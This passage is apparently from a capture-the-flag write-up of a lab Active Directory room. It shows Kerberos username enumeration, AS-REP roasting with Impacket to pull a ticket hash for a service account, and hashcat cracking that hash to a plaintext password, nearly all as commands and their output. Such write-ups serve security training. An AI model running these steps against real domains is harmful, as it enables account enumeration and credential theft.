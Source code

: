 ```bash
2021/05/06 05:28:30 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2021/05/06 05:28:49 >  [+] VALID USERNAME:       Paradox@spookysec.local
2021/05/06 05:30:07 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2021/05/06 05:30:34 >  [+] VALID USERNAME:       ori@spookysec.local
2021/05/06 05:31:13 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2021/05/06 05:32:55 >  Done! Tested 73317 usernames (16 valid) in 407.193 seconds
```

- Now we have the valid users in the network, lets check if any user has `Kerberos Pre-Auth` Disabled

```bash
# obtaining just the user names
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ cat kerbrute.out | awk '{print $7}' | cut -d '@' -f 1 | sort -u | tee valid-users.txt

# performing AS_REP Roasting
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ GetNPUsers.py spookysec.local/ -no-pass -usersfile valid-users.txt -outputfile kerberos-preauth.out
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[-] invalid principal syntax
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[..snip..]
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

# output saved
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ cat kerberos-preauth.out 
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:ee5dd[..snip..]84ee1
```

- Now we have the TGT of the svc-admin, since the TGT is encrypted with the users account password if we crack the TGT we will obtain the password for the svc-admin

```bash
# identifying hash mode with hashcat
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ hashcat --example-hashes | grep -a2 krb5asrep
MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
PASS: hashcat

# cracking the TGT
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]                                                                                            
└─$ hashcat -m 18200 kerberos-preauth.out /usr/share/wordlists/rockyou.txt
[..snip..]
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:ee5dd[..snip..]84ee1:management2005
[..snip..]
```
